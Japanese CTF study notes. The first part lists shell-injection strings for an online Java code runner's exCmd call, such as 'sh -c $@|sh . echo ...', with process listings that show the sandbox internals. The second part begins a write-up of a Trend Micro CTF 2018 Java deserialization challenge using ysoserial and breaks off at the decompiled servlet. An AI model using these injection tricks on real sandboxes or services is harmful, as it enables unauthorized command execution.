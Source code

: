```txt

exCmd("sh -c 'uname -a'");  これだとダメだった
N

exCmd("sh -c $@ 0 uname -a");
OK

exCmd("sh -c $@|sh . echo uname");
OK

exCmd("sh -c $@|sh . echo uname -a");
OK

exCmd("sh -c $@|sh . echo /bin/echo -e 'tab\trequired'");
OK tab required

exCmd("sh -c $@|sh . echo /bin/echo -e 'tab required'");
OK tab required


exCmd("sh -c $@|sh . echo ps ft");
OK
    PID TTY      STAT   TIME COMMAND
      1 ?        Ss     0:00 sh -c /sbin/ifconfig eth0 > ifconfig.txt; rm ifconfig.txt; LANG=en_US.UTF-8 HOME=/workspace /usr/bin/time -v -o exec_time.txt ./run_user runner3 /usr/bin/java -Dfile.encoding=UTF-8 -Xmx512m -Xms1m -XX:+ShowCodeDetailsInExceptionMessages  Main <exec_stdin.txt >exec_stdout.txt 2>exec_stderr.txt;echo $? > exec_exit_code.txt
      8 ?        S      0:00 /usr/bin/time -v -o exec_time.txt ./run_user runner3 /usr/bin/java -Dfile.encoding=UTF-8 -Xmx512m -Xms1m -XX:+ShowCodeDetailsInExceptionMessages Main
      9 ?        Sl     0:00  \_ /usr/bin/java -Dfile.encoding=UTF-8 -Xmx512m -Xms1m -XX:+ShowCodeDetailsInExceptionMessages Main
     22 ?        S      0:00      \_ sh -c $@|sh . echo ps ft
     24 ?        S      0:00          \_ sh
     25 ?        R      0:00              \_ ps ft
```
## ysoserial commons collection5 / create custom payload (trendmicro-ctf-2018 misc-300)
https://github.com/quangntenemy/CTF/blob/master/2018/trendmicro-ctf-2018/misc-300/README.md  
https://graneed.hatenablog.com/entry/2018/09/16/132350  
- **entrypoint**  
warファイルが与えられて、これを`jd-gui`で読むと以下のソースが与えられる。  
`Server.java`  
`/jail`にPOSTでアクセスすると、`ObjectInputStream ois = new CustomOIS(is);`でカスタムに定義しているObjectInputStream型のインスタンスを作成して、`Person person = (Person)ois.readObject();`でそのインスタンスの`readObject`でデシリアライズして`Person`クラスにキャストして、それを`response.getWriter().append("Sorry " + person.name + ". I cannot let you have the Flag!.");`で出力に含める。  
例外が発生したら`e.printStackTrace(response.getWriter());`でStackTrace上にエラーを出力する。  
```java
package com.trendmicro;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.ServletInputStream;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet({"/jail"})
public class Server
```